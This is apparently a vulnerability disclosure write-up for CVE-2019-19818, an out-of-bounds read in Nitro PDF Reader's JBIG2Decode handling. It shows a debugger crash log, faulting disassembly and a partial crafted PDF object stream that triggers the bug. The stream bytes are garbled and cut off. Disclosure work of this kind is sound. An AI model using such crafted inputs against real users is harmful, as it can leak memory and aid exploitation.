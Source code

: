 An access violation happened when open the PDF file with Nitro PDF. Example:
```
(1b18.1274): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
*** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Program Files\Nitro\Pro\12\npdf.dll - 
npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x2e8a:
00007ff9`28f44bea 443b4b10        cmp     r9d,dword ptr [rbx+10h] ds:00000000`00000010=????????
```

Analyzing thru the vulnerable code found that the heap overflow happened when the library JBIG2DECODE embedded in npdf.dll attempt to read in memory. Crash code path:
```
.text:00000001803A4BE1              lea     r9d, [rdx+r14]
.text:00000001803A4BE5              test    r9d, r9d
.text:00000001803A4BE8              js      short loc_1803A4C5D
.text:00000001803A4BEA              cmp     r9d, [rbx+10h] ; exception here
```

Attempt to read from memory:
```
0:000> .exr -1
ExceptionAddress: 00007ff928f44bea (npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0x0000000000002e8a)
   ExceptionCode: c0000005 (Access violation)
  ExceptionFlags: 00000000
NumberParameters: 2
   Parameter[0]: 0000000000000000
   Parameter[1]: 0000000000000010
Attempt to read from address 0000000000000010
```

CVE-2019-19818 - (npdf!CAPPDAnnotHandlerUtils::PDAnnotHandlerDestroyData2+0xa08a) JBIG2Decode Out-of-Bounds Read Vulnerability
------------------------------------------------------------------------------------------------------------------------------
An exploitable out-of-bounds read vulnerability exists in the handling of JBIG2Decode object stream attributes of Nitro PDF Reader version 12.0.0.112. A specially crafted PDF document can trigger an out-of-bounds read, which can disclose sensitive memory content and aid in exploitation when coupled with another vulnerability. An attacker needs to trick the user to open the malicious file to trigger this vulnerability. If the browser plugin extension is enabled, visiting a malicious site can also trigger the vulnerability.

The OOB issue found when it parse the object stream, where it failed to decode the unicode character found in the stream. This happened when it tries to process the following example:
```
4 0 obj
<< /Length 103
>>
stream
���������\��ÿýÿþþþ������}\åõ£!õÜFæ:÷BSö?
âI�vœÐû|íx\Lúùr?/UÄS³:>2¨ÿ+1lV?~~èa"xvi´–„#ÿ¬
endstream
endobj
5 0 obj
<< /DecodeParms << /JBIG2Globals 4 0 R >>
/Width 32
/ColorSpace /DeviceGray
/Height 32
/Filter /JBIG2Decode
/Subtype /Image
/Length 138
/Type /XObject
/BitsPerComponent 1
>>
stream
���0������� ��ÿÿõ
```